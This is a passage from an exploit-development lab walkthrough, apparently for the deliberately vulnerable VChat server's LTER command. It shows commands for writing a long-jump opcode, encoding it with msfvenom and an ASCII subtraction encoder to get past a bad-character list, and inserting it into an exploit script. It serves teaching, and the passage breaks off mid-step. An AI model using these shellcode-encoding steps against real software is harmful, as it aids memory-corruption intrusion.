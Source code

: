 	2. Generate the machine code (byte) file 
		```
		python -c "buff= b'\xe9\x56\xf2\xff\xff'; fd = open('jmp_e10.bin', 'wb'); fd.write(buff)"
		```
	3. Generate the shellcode with [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) using the [`x86/xor_poly`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/shikata_ga_nai) encoder.

		```
		cat jmp_e10.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub  -f python -v SHELL -b '\x00x\0a\x0d\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
		```
		* Surprise! So far those that I have tried do not work due to the restrictive character set or length of the encoded string! We can generate encoded shellcode using these but not with the restrictive character set for those I have tried.
	4. Download the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder), enter into it's directory, and install `z3-solver`.
		```
		$ git clone https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder.git && cd Automatic-ASCII-Shellcode-Subtraction-Encoder && pip install z3-solver
		```
	5. Run the following command to generate the encoded long jump shellcode 
		```
		python3 encoder.py -m -p -s 'E956F2FFFF ' -v JUMP_ENCODE
		```
		* `python3 encoder.py`: Run the `encoder.py` with the python3 interpreter
		* `-m`: Generates shellcode in the format expected by python `\x00 - \xff`
		* `-p`: Pad shellcode so it is a multiple of 4
		* `-s <Shellcode>`: Shellcode to encode as we added the `-p` flag this can be of any length 
		* `-v`: Name of variable for output 
	6. Add the Encoded Long Jump shellcode to the exploit as shown in [exploit11.py](./SourceCode/exploit11.py), and test it!
		Working

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/47b5df9a-6c07-4cd0-9314-42cb6e135360

		1. Click on the black button highlighted below, enter in the address we decided in the previous step
